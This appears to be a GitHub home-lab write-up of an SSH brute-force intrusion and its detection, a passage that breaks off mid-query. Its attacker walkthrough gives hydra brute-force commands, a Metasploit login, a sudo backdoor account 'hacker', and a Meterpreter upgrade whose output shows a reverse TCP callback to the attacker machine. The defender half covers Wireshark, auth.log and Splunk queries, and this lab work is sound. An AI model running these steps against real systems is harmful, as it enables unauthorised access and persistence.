










# SSH Brute-Force Attack & Detection Home Lab

I created an end-to-end SSH home lab to simulate a real-world brute-force attack against an Ubuntu server, execute post-exploitation privilege escalation, and detect the entire intrusion across network traffic (Wireshark), host logs (`auth.log`), and centralized SIEM analytics (Splunk Enterprise).

---

## Overview

The goal of this project was to connect the dots between offensive actions and their digital footprints. Rather than studying attack tools or defensive monitoring in isolation, I wanted to experience the complete intrusion lifecycle from both perspectives:

1. **The Attacker:** Scan for open services, brute-force SSH credentials, establish an interactive shell, create a backdoor account with root privileges, and upgrade the session to Meterpreter.
2. **The Defender:** Detect and reconstruct the entire incident across three distinct layers—packet analysis in Wireshark, live host-level log triage on the Ubuntu server, and automated threat hunting using Splunk with custom regex field extractions.

---

## Lab Architecture & Environment

The entire lab was built on an isolated virtual host-only network segment so that the Kali attacker machine could reach the target's SSH port, while the Ubuntu server shipped authentication logs to a Windows-hosted Splunk instance in real time.

```
┌─────────────────────────┐             ┌─────────────────────────┐
│   Kali Linux Attacker   │             │   Ubuntu Server Target  │
│     192.168.133.142     │             │     192.168.133.132     │
└────────────┬────────────┘             └────────────┬────────────┘
             │                                       │
             │─────── Port 22 (SSH Brute Force) ────>│
             │                                       │ (Forwarding /var/log/auth.log)
             │                                       ▼
             │                          ┌─────────────────────────┐
             └─────────────────────────>│     Windows 11 Host     │
                                        │ Splunk Enterprise 10.4.3│
                                        └─────────────────────────┘
```

| Role | Hostname / OS | IP Address | Details |
|---|---|---|---|
| **Attacker** | Kali Linux (VM) | `192.168.133.142` | Tools: Nmap, THC-Hydra, Metasploit Framework |
| **Target** | Ubuntu Server (VM) | `192.168.133.132` | Ubuntu 26.04.1 LTS (Resolute Raccoon), OpenSSH 10.2p1 |
| **SIEM / Monitor** | Windows 11 Host | Host-Only IP | Splunk Enterprise 10.4.3 receiving forwarded logs |

Log forwarding was established using the Splunk Universal Forwarder running as the `splunkfwd` service account on Ubuntu, ingesting `/var/log/auth.log` directly into `index=main host="ubuntu"`.

### Tools Used
- **Reconnaissance & Exploitation:** Nmap, THC-Hydra 9.7, Metasploit Framework (`msfconsole`)
- **Network Inspection:** Wireshark (`pcapng` packet analysis)
- **Host Forensics:** Linux CLI utilities (`tail -f`, `grep`, `lsof`, `cat`)
- **SIEM & Threat Hunting:** Splunk Enterprise 10.4.3 (SPL queries, `rex` dynamic field extractions)

---

## Part 1: Attacker Walkthrough (Kali Linux)

### Step 1: Service Fingerprinting with Nmap
To start, I ran a targeted service scan against port 22 on the target IP:

```bash
nmap -sV -p 22 192.168.133.132
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.2p1 Ubuntu 2ubuntu3.6 (Ubuntu Linux; protocol 2.0)
MAC Address: 00:0C:29:FD:07:E2 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Key findings:**
- Port 22 was open and running OpenSSH 10.2p1.
- The MAC OUI confirmed the target was a VMware virtual machine.

---

### Step 2: Credential Brute-Forcing with Hydra
Knowing Ubuntu cloud/server images typically come with a default user `ubuntu`, I tested that username against a targeted password list (`password.txt` on my desktop):

```bash
hydra -l ubuntu -P /home/kali/Desktop/password.txt ssh://192.168.133.132
```

```text
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
[DATA] attacking ssh://192.168.133.132:22/
[22][ssh] host: 192.168.133.132   login: ubuntu   password: sudosu
1 of 1 target successfully completed, 1 valid password found
```

Within seconds, Hydra struck gold with the valid credentials: **`ubuntu:sudosu`**.

---

### Step 3: Establishing a Controlled Session via Metasploit
Rather than dropping into an ordinary SSH client, I loaded Metasploit's `ssh_login` auxiliary scanner. This allowed me to verify the credentials while keeping session management inside `msfconsole`:

```bash
msfconsole -q
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.133.132
msf auxiliary(scanner/ssh/ssh_login) > set USERNAME ubuntu
msf auxiliary(scanner/ssh/ssh_login) > set PASSWORD sudosu
msf auxiliary(scanner/ssh/ssh_login) > run
```

```text
[*] 192.168.133.132:22 SSH - Testing User/Pass combinations
[+] Success: 'ubuntu:sudosu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),111(lpadmin),114(lxd),115(wireshark) Linux ubuntu 7.0.0-34-generic #34-Ubuntu SMP PREEMPT_DYNAMIC Wed Sep 2 14:29:37 UTC 2026 x86_64 GNU/Linux'
[*] SSH session 1 opened (192.168.133.142:37447 -> 192.168.133.132:22) at ...
[*] Auxiliary module execution completed
```


*Figure: The Hydra attack completion (left terminal) and subsequent Metasploit SSH session initialization (right terminal).*

The output gave two critical pieces of intel:
1. Valid interactive shell access was granted.
2. The user `ubuntu` belongs to group 27 (`sudo`), opening a direct path to root privileges.

---

### Step 4: System Enumeration & Persistence
I connected to the active session (`sessions -i 1`) and ran initial enumeration commands:

```bash
whoami
# Output: ubuntu

cat /etc/os-release
# Output: PRETTY_NAME="Ubuntu 26.04.1 LTS", VERSION_CODENAME=resolute

cat /etc/passwd
# Confirmed system accounts, including the splunkfwd service user
```

To establish persistence, I created a backdoor account named `hacker` and escalated it into the `sudo` group:

```bash
# Standard useradd failed without root
useradd hacker
# useradd: Permission denied.

# Executed with sudo using the discovered password
sudo useradd hacker
[sudo: authenticate] Password: sudosu

# Added hacker to the sudo group
sudo usermod -aG sudo hacker
```

Because the raw shell lacked a full interactive TTY, running `su - hacker` choked on password input prompts. To overcome this limitation and maintain stable control, I upgraded the connection.

---

### Step 5: Upgrading to a Meterpreter Session
Because the initial shell closed after testing, I re-established access as Session 2 and upgraded it to a full Meterpreter payload via `post/multi/manage/shell_to_meterpreter` for stable post-exploitation control:

```bash
msf auxiliary(scanner/ssh/ssh_login) > sessions -u 2
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session: [2]
[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.133.142:4433
[*] Sending stage (1079144 bytes) to 192.168.133.132
[*] Meterpreter session 3 opened (192.168.133.142:4433 -> 192.168.133.132:40624) at 2026-10-01 19:57:33 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
```



With an active Meterpreter session established, initial exploitation and persistence setup were complete.

#### Attacker Action Summary

| Phase | Action | Tool / Command |
|---|---|---|
| **Recon** | Scanned target for open SSH on port 22 | `nmap -sV -p 22` |
| **Brute Force** | Discovered credentials `ubuntu:sudosu` | `hydra -l ubuntu -P password.txt` |
| **Initial Access** | Validated access and created interactive session | Metasploit `auxiliary/scanner/ssh/ssh_login` |
| **Discovery** | Fingerprinted OS version and local users | `whoami`, `/etc/os-release`, `/etc/passwd` |
| **Persistence** | Created backdoor user account `hacker` | `sudo useradd hacker` |
| **Privilege Escalation** | Elevated `hacker` account to `sudo` group | `sudo usermod -aG sudo hacker` |
| **C2 Upgrade** | Upgraded raw shell to Meterpreter | `post/multi/manage/shell_to_meterpreter` |

---

## Part 2: Defender Walkthrough (Detection & Threat Hunting)

With the attack executed, I pivoted to the blue team side across three progressive visibility layers.

---

### Layer 1: Network Packet Analysis (Wireshark)

During the attack, I captured traffic on the target interface (`ens33`) into `ssh_wireshark.pcapng` and examined the capture in Wireshark.

```text
Transmission Control Protocol, Src Port: 22, Dst Port: 45066, Seq: 0, Ack: 1, Len: 0
Flags: 0x012 (SYN, ACK)
[Expert Info (Chat/Sequence): Connection establish acknowledge (SYN+ACK): server port 22]
Window: 64240
No.: 616 · Time: 38.245219127 · Source: 192.168.133.132 · Destination: 192.168.133.142
Protocol: TCP · Length: 58 · Info: 22 → 45066 [SYN, ACK] Seq=0 Ack=1 Win=64240 Len=0 MSS=1460
```



#### What Wireshark Revealed:
- A flood of rapid TCP three-way handshakes to port 22 initiated by `192.168.133.142`.
- Multiple ephemeral source ports opening short-lived TCP streams in quick succession—a clear footprint of automated brute-force tools.

#### The Limitation of Network-Only Inspection:
Because modern SSH uses encrypted payloads after the initial handshake, **Wireshark could not reveal usernames, attempted passwords, or executed commands**. Network traffic confirmed *when* and *from where* connections occurred, but host-level visibility was required to understand the impact.

---

### Layer 2: Host-Level Log Triage on Ubuntu

Next, I investigated local system logs in real time (`tail -f /var/log/auth.log`).

#### 1. Failed Logins & Built-In Rate-Limiting Throttling
```text
sshd-session[5249]: Failed password for ubuntu from 192.168.133.142 port 39512
sshd-session[5250]: Failed password for ubuntu from 192.168.133.142 port 39510
sshd-session[5393]: Failed password for ubuntu from 192.168.133.142 port 33554 ssh2
sshd[5090]: srclimit_penalise: 192.168.133.142/32: activating ipv4 penalty of 17 seconds for penalty: failed authentication
sshd[5090]: drop connection #13 from [192.168.133.142]:57590 on [192.168.133.132]:22 penalty: failed authentication
```



> **Key Takeaway:** Notice `srclimit_penalise` and `drop connection`. Modern OpenSSH packages on Ubuntu activate per-source connection throttling after consecutive failures. While this imposed delay penalties (17 seconds in this log), it did not ban the IP completely, allowing Hydra to ultimately succeed.

#### 2. The Successful Authentication
```text
sshd-session[5394]: Accepted password for ubuntu from 192.168.133.142 port 33568 ssh2
sshd-session[5394]: pam_unix(sshd:session): session opened for user ubuntu(uid=1000) by ubuntu(uid=0)
systemd-logind[1202]: New session '5' of user 'ubuntu' with class 'user' and type 'tty'.
```

#### 3. Post-Exploitation Account Creation in `auth.log`
Because the attacker had to execute privileged tasks via `sudo`, every single command was recorded in plaintext:

```text
sudo: pam_unix(sudo:session): session opened for user root(uid=0) by ubuntu(uid=1000)
sudo: ubuntu : TTY=/dev/pts/2 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/sbin/useradd hacker
useradd[5673]: new group: name=hacker, GID=1002
useradd[5673]: new user: name=hacker, UID=1002, GID=1002, home=/home/hacker, shell=/bin/sh, from=/dev/pts/3

sudo: ubuntu : TTY=/dev/pts/2 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/sbin/usermod -aG sudo hacker
usermod[5705]: add 'hacker' to group 'sudo'
usermod[5705]: add 'hacker' to shadow group 'sudo'
```



**Forensic Breakdown of this Log Evidence:**
- **Step 1 (User Creation):** At `17:51:22`, user `ubuntu` used `sudo` from terminal `/dev/pts/2` to execute `/usr/sbin/useradd hacker`. Process ID `5673` first generated group `hacker` (`GID=1002`), then initialized the user profile `hacker` (`UID=1002`) with home folder `/home/hacker`.
- **Step 2 (Privilege Escalation):** At `17:53:47`, the attacker executed `/usr/sbin/usermod -aG sudo hacker`. Process ID `5705` added `hacker` to both the primary and shadow `sudo` groups, granting root rights.
- **Step 3 (Failed Lateral Movement):** Notice the subsequent `unix_chkpwd` and `FAILED SU (to hacker)` entries in the screenshot at `17:55:09` to `17:56:04`. These reflect the attacker repeatedly guessing passwords (`sudosu`, `sudosu1`) trying to switch directly into the new `hacker` shell before switching back to `sudo su -hacker`.

#### 4. Correlating Active Sockets with `lsof`
To identify active connections tied to the attacker, I ran:
```bash
sudo lsof -i :22
```

```text
COMMAND     PID  USER    FD   TYPE DEVICE SIZE/OFF NODE NAME
systemd       1  root  141u  IPv4  29798      0t0  TCP *:ssh (LISTEN)
systemd       1  root  142u  IPv6  29101      0t0  TCP *:ssh (LISTEN)
sshd       5090  root    3u  IPv4  29798      0t0  TCP *:ssh (LISTEN)
sshd       5090  root    4u  IPv6  29101      0t0  TCP *:ssh (LISTEN)
sshd-sess  8533  root    9u  IPv4  67166      0t0  TCP ubuntu:ssh->192.168.133.142:44785 (ESTABLISHED)
sshd-sess  8569 ubuntu    9u  IPv4  67166      0t0  TCP ubuntu:ssh->192.168.133.142:44785 (ESTABLISHED)
```

The established socket on port `44785` tied directly back to `Accepted password for ubuntu from 192.168.133.142 port 44785 ssh2` in `auth.log`, linking the live socket directly to the logged authentication event.

---

### Layer 3: Centralized Threat Hunting in Splunk

On the Windows 11 host, I opened Splunk Enterprise to query the forwarded dataset (`index=main host="ubuntu"`).

#### Search 1: Extracting Attacker IP and Session Ports with `rex`

Because `/var/log/auth.log` is unstructured text, fields like source IP and ephemeral port are not indexed out of the box. I wrote a regular expression with Splunk's `rex` command to parse these fields on the fly:

```spl
index=main host="ubuntu" source="/var/log/auth.log" "accepted"
| rex field=_raw "from (?<src_ip>\d+\.\d+\.\d+\.\d+) port (?<port>\d+)"
| table _time, src_ip, port, _raw
| sort - _time
```



**Forensic Evidence Uncovered:**
- **33 total events** matched in the 24-hour window.
- **Single Source IP:** Every single authenticated session originated from `src_ip = 192.168.133.142` (the Kali attacker).
- **Ephemeral Port Sequencing:** The query captured connections across 10 distinct source ports (`44785`, `53092`, `33673`, `37447`, `54530`, `33568`, `39540`, `33505`, `51518`, `50244`), correlating directly with each new SSH session opened during the attack.

---

#### Search 2: Hunting Account Creation (`new user` / `useradd`)

To detect potential backdoor accounts, I searched for user creation activity across the logs:

```spl
index=main host="ubuntu" source="/var/log/auth.log" (new user OR useradd)
| table _time, _raw
```



**Forensic Evidence Uncovered:**
- Returned **91 events** total. While much of this included background noise from `systemd-logind` session lifecycle events (`class 'user'`, `type 'wayland'`, `type 'tty'`), filtering by `useradd` pinpointed the malicious account creation:
  ```text
  2026-10-02T17:51:22.900911+05:30 ubuntu useradd[5673]: new user: name=hacker, UID=1002, GID=1002, home=/home/hacker, shell=/bin/sh, from=/dev/pts/3
  2026-10-02T17:51:22.892929+05:30 ubuntu useradd[5673]: new group: name=hacker, GID=1002
  ```
- This proved that a brand-new local account (`hacker`) was provisioned directly from an interactive pseudo-terminal (`/dev/pts/3`) shortly after the initial SSH compromise.

---

#### Search 3: Tracking Group Membership & Privilege Escalation

Next, I hunted for group modifications to see if any accounts were being elevated to administrative groups:

```spl
index=main host="ubuntu" source="/var/log/auth.log" (add member OR to group)
| table _time, _raw
```



**Baseline vs. Malicious Findings:**
- Returned **12 events**. 
- Splunk surfaced both legitimate baseline setup activity (`add 'ubuntu' to shadow group 'wireshark'` at `10:13:58`) and the attack activity (`add 'hacker' to group 'sudo'`).

To focus purely on the intruder's account, I filtered directly on the username `hacker`:

```spl
index=main host="ubuntu" source="/var/log/auth.log" (add member OR to group) hacker
| table _time, _raw
```



**Result:**  
Isolated **6 events** confirming the privilege escalation:
```text
2026-10-02 17:53:47.739 ubuntu usermod[5705]: add 'hacker' to shadow group 'sudo'
2026-10-02 17:53:47.736 ubuntu usermod[5705]: add 'hacker' to group 'sudo'
```

---

#### Search 4: Reconstructing the Complete Sudo Command Timeline

To reconstruct the exact commands executed as root without relying on shell history files (which an attacker can clear), I targeted the audit lines logged by `sudo` using regex extraction:

```spl
index=main host="ubuntu" source="/var/log/auth.log" "command=" hacker
